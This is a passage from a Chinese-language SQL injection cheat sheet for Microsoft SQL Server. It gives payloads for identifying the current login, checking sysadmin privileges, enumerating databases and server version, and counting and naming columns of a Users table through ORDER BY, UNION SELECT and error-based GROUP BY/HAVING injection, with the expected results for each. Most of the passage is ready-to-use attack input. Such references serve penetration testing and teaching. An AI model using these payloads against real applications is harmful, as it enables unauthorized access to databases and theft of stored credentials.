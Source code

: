 ```text


Example:
返回当前用户:
SELECT loginame FROM master..sysprocesses WHERE spid=@@SPID;

检查当前用户是否是admin:
SELECT (CASE WHEN (IS_SRVROLEMEMBER('sysadmin')=1) THEN '1' ELSE '0' END);
Database Names
Database.Table    master..sysdatabases
Column    name
Current DB    DB_NAME(i)

Examples:
SELECT DB_NAME(5);
SELECT name FROM master..sysdatabases;
```

#### 主机名

```text
@@SERVERNAME
SERVERPROPERTY()

Examples:
SELECT SERVERPROPERTY('productversion'), SERVERPROPERTY('productlevel'), SERVERPROPERTY('edition');
```

tips:

SERVERPROPERTY\(\) 只对 MSSQL 2005 或更高版本有效

#### 列名和表名

```text
猜解列名数量
ORDER BY n+1;

Example:
sql语句: SELECT username, password, permission FROM Users WHERE id = '1';

1' ORDER BY 1--    True
1' ORDER BY 2--    True
1' ORDER BY 3--    True
1' ORDER BY 4--    False - 得出只有三列
-1' UNION SELECT 1,2,3--    True

tips：
让数字一直增加会得到一个错误的请求


以下内容可用于获取当前查询中的列。

GROUP BY / HAVING

Example:
sql语句: SELECT username, password, permission FROM Users WHERE id = '1';

1' HAVING 1=1--    Column 'Users.username' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.
1' GROUP BY username HAVING 1=1--    Column 'Users.password' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.
1' GROUP BY username, password HAVING 1=1--    Column 'Users.permission' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.
1' GROUP BY username, password, permission HAVING 1=1--    No Error
```